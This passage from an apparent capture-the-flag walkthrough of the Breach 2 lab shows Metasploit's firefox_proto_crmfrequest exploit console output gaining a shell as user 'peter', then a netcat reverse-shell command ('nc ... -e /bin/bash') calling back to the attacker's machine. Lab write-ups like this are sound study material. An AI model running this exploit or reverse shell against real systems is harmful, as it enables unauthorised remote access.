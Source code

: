 ![](/assets/images/breach2/screenshot-7.png)

Following the same idea we wait a minutes and get a shell with privileges of the user peter.

```console
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > [*] 192.168.110.151  firefox_proto_crmfrequest - Gathering target information for 192.168.110.151           
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML response to 192.168.110.151                                                                           
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML                                                                                                       
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending the malicious addon                                                                                        
[*] Command shell session 1 opened (192.168.110.150:4444 -> 192.168.110.151:42386) at 2021-09-11 23:04:53 -0500                                                     
                                                                                                                                                                    
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > sessions -i 1
[*] Starting interaction with 1...

uid=1000(peter) gid=1000(peter) groups=1000(peter),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(scanner),115(bluetooth),1003(fishermen)
[*] 192.168.110.151 - Command shell session 1 closed.
```

We have an unstable shell so I decided to switch to a netcat reverse shell.

```console
msf6 exploit(multi/browser/firefox_proto_crmfrequest) > 
[*] 192.168.110.151  firefox_proto_crmfrequest - Gathering target information for 192.168.110.151
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML response to 192.168.110.151
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML
[*] 192.168.110.151  firefox_proto_crmfrequest - Sending the malicious addon
[*] Command shell session 2 opened (192.168.110.150:4444 -> 192.168.110.151:42411) at 2021-09-11 23:12:50 -0500

msf6 exploit(multi/browser/firefox_proto_crmfrequest) > sessions -i 2
[*] Starting interaction with 2...

nc 192.168.110.150 443 -e /bin/bash
```
